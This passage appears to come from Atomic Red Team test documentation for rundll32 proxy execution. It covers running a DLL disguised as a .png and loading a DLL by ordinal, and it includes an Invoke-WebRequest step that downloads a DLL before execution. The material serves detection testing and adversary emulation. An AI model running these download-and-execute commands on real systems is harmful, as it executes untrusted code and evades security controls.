 **auto_generated_guid:** ae3a8605-b26e-457c-b6b3-2702fd335bac

#### Inputs:

| Name       | Description             | Type   | Default Value                                                                        |
| ---------- | ----------------------- | ------ | ------------------------------------------------------------------------------------ |
| input_url  | Url to download the DLL | url    | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1047/bin/calc.dll |
| input_file | Non-dll file            | string | C:&#92;Users&#92;$env:username&#92;Downloads&#92;calc.png                            |

#### Attack Commands: Run with `powershell`!

```powershell
rundll32.exe #{input_file}, StartW
```

#### Dependencies: Run with `powershell`!

##### Description: Non-dll file must exist on disk at specified location

##### Check Prereq Commands:

```powershell
if (Test-Path #{input_file}) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "#{input_url}" -OutFile "#{input_file}"
```

<br/>
<br/>

## Atomic Test #11 - Rundll32 with Ordinal Value

Rundll32.exe loading dll using ordinal value #2 to DLLRegisterServer.
Upon successful execution, Calc.exe will spawn.

**Supported Platforms:** Windows

**auto_generated_guid:** 9fd5a74b-ba89-482a-8a3e-a5feaa3697b0

#### Inputs:

| Name       | Description             | Type   | Default Value                                                                                        |
| ---------- | ----------------------- | ------ | ---------------------------------------------------------------------------------------------------- |
| input_url  | Url to download the DLL | url    | https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.010/bin/AllTheThingsx64.dll |
| input_file | DLL File                | string | PathToAtomicsFolder&#92;T1218.010&#92;bin&#92;AllTheThingsx64.dll                                    |

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe "#{input_file}",#2
```
